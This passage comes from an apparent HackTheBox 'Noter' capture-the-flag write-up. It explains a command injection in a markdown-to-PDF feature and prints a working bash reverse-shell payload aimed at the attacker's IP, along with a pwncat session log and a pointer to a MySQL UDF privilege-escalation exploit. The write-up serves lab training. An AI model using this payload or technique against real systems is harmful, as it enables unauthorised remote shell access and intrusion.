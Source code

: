 Breaking the code down: 

The code check if you have the VIP subscription by callling the function `check_VIP()`, if so, it takes the url from the form and check its validity. Then, it takes the url and do a get request to the markdown file the user provides. after that, it takes the response, the content of the md file, and store it in the the `command` varialble, then it runs the command with `/bin/bash` using `subprocess`. The command convert the md to pdf through the `md-to-pdf` library. So biscally we will take a reverse shell, store it inside an md file and hosted on a local server, then call it. Let's try that now.

1 the reverse shell: 

```bash
└─$ cat theredtea.md

--';bash -i >& /dev/tcp/10.10.14.106/1337 0>&1;'--

```
2 export it: 

![hackthebox noter](https://th3redtea.github.io/assets/img/Screenshot_2022-08-31_10-58-07.png)

3 recieve the revershell with pwncat 

```bash
└─$ pwncat-cs -lp 1337
/opt/pwncat/lib/python3.10/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[10:51:33] Welcome to pwncat 🐈!                                              __main__.py:164
[10:58:13] received connection from 10.10.11.160:36552                             bind.py:84
[10:58:17] 10.10.11.160:36552: registered new host w/ db                       manager.py:957
(local) pwncat$ ls
[10:58:28] error: ls: unknown command                                          manager.py:957
(local) pwncat$                                                                              
(remote) svc@noter:/home/svc/app/web$ ls
app.py  misc  templates
(remote) svc@noter:/home/svc/app/web$ cd /home/svc/
(remote) svc@noter:/home/svc$ ls
app  user.txt
(remote) svc@noter:/home/svc$ cat user.txt 
93e08************************85
(remote) svc@noter:/home/svc$ 
```

# Root

The root is running MySQL. And that's bad! 

![hackthebox root](https://th3redtea.github.io/assets/img/mysqllinpease.png)

MySQL can execute system commands. We will be using user-defined function with this 2006's exploit: 

https://www.exploit-db.com/exploits/1518
